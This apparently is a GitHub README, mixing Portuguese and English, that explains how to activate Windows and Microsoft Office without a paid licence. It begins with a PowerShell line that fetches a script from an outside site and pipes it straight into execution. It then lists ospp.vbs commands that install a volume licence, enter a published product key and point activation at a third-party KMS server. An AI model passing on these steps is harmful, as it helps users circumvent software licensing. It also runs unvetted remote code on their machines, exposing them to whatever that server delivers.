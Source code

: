 # Windowns-e-OFFICE
--------------------------------------------

TENTE ESSE PRIMEIRO:
irm https://get.activated.win | iex


--------------------------------------------

1- Open location of the Office installed on your PC.

cd /d %ProgramFiles%\Microsoft Office\Office16
cd /d %ProgramFiles(x86)%\Microsoft Office\Office16

2- for /f %x in ('dir /b ..\root\Licenses16\ProPlus2019VL*.xrm-ms') do cscript ospp.vbs /inslic:"..\root\Licenses16\%x"

3-
cscript ospp.vbs /setprt:1688
cscript ospp.vbs /unpkey:6MWKP >nul
cscript ospp.vbs /inpkey:NMMKJ-6RK4F-KMJVX-8D9MJ-6MWKP
cscript ospp.vbs /sethst:e8.us.to
cscript ospp.vbs /act

-------------------------------------------
